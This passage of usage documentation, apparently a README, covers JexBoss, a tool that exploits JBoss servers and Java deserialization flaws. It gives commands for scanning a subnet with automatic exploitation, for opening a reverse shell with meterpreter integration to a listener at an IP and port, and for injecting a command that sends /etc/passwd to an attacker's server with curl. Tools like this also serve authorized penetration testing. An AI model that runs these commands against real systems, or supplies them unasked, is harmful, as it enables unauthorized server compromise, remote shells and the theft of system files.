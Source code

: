 * Network scan mode:

```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080 -results results.txt
```

* Network scan with auto-exploit mode:

```
$ python jexboss.py -mode auto-scan -A -network 192.168.0.0/24 -ports 8080 -results results.txt
```

* Results and recommendations:


Reverse Shell (meterpreter integration)
---------------------------------------

After you exploit a JBoss server, you can use the own jexboss command shell or perform a reverse connection using the following command:

```
   jexremote=YOUR_IP:YOUR_PORT

   Example:
     Shell>jexremote=192.168.0.10:4444
```

* Example:
  ![alt tag](../image/jexbossreverse2.jpg)

When exploiting java deserialization vulnerabilities (Application Deserialization, Servlet Deserialization), the default options are: make a reverse shell connection or send a commando to execute.


Usage examples
--------------

* For Java Deserialization Vulnerabilities in a custom HTTP parameter and to send a custom command to be executed on the exploited server:

```
$ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name --cmd 'curl -d@/etc/passwd http://your_server'
```
